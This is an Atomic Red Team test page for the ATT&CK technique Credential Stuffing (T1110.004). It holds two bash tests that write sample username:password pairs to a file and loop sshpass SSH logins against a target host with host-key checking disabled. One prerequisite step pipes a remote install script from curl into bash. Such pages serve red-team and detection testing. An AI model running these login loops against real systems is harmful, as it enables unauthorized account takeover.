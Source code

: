 # T1110.004 - Credential Stuffing
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1110/004)
<blockquote>Adversaries may use credentials obtained from breach dumps of unrelated accounts to gain access to target accounts through credential overlap. Occasionally, large numbers of username and password pairs are dumped online when a website or service is compromised and the user account credentials accessed. The information may be useful to an adversary attempting to compromise accounts by taking advantage of the tendency for users to use the same passwords across personal and business accounts.

Credential stuffing is a risky option because it could cause numerous authentication failures and account lockouts, depending on the organization's login failure policies.

Typically, management services over commonly used ports are used when stuffing credentials. Commonly targeted services include the following:

* SSH (22/TCP)
* Telnet (23/TCP)
* FTP (21/TCP)
* NetBIOS / SMB / Samba (139/TCP & 445/TCP)
* LDAP (389/TCP)
* Kerberos (88/TCP)
* RDP / Terminal Services (3389/TCP)
* HTTP/HTTP Management Services (80/TCP & 443/TCP)
* MSSQL (1433/TCP)
* Oracle (1521/TCP)
* MySQL (3306/TCP)
* VNC (5900/TCP)

In addition to management services, adversaries may "target single sign-on (SSO) and cloud-based applications utilizing federated authentication protocols," as well as externally facing email applications, such as Office 365.(Citation: US-CERT TA18-068A 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - SSH Credential Stuffing From Linux](#atomic-test-1---ssh-credential-stuffing-from-linux)

- [Atomic Test #2 - SSH Credential Stuffing From MacOS](#atomic-test-2---ssh-credential-stuffing-from-macos)


<br/>

## Atomic Test #1 - SSH Credential Stuffing From Linux
Using username,password combination from a password dump to login over SSH

**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_host | IP Address / Hostname you want to target. | String | localhost|


#### Attack Commands: Run with `bash`! 


```bash
cat > /tmp/usernamepass.txt << EOF
john.doe:jonathan123!
jane.doe:spongebob402
administrator:administrator90
admin:admin303&
root:toor
centos:centos
john.smith:summer2019!
jane.smith:princesa29
EOF

for unamepass in $(cat /tmp/usernamepass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```




#### Dependencies:  Run with `SSHPASS`!
##### Description: Requires Installation of SSHPASS
##### Check Prereq Commands:
```SSHPASS
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi; 
```
##### Get Prereq Commands:
```SSHPASS
if [ $(cat /etc/os-release | grep -i ID=ubuntu) ] || [ $(cat /etc/os-release | grep -i ID=kali) ]; then sudo apt update && sudo apt install sshpass -y; elif [ $(cat /etc/os-release | grep -i 'ID="centos"') ]; then sudo yum update -y && sudo yum install sshpass -y ; else echo "This test requires sshpass" ; fi ;
```




<br/>
<br/>

## Atomic Test #2 - SSH Credential Stuffing From MacOS
Using username,password combination from a password dump to login over SSH

**Supported Platforms:** macOS




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_host | IP Address / Hostname you want to target. | String | localhost|


#### Attack Commands: Run with `bash`! 


```bash
cat > /tmp/usernamepass.txt << EOF
john.doe:jonathan123!
jane.doe:spongebob402
administrator:administrator90
admin:admin303&
root:toor
centos:centos
john.smith:summer2019!
jane.smith:princesa29
EOF

for unamepass in $(cat /tmp/usernamepass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```




#### Dependencies:  Run with `SSHPASS`!
##### Description: Requires Installation of SSHPASS
##### Check Prereq Commands:
```SSHPASS
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi; 
```
##### Get Prereq Commands:
```SSHPASS
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install.sh)"
brew install hudochenkov/sshpass/sshpass
```




<br/>
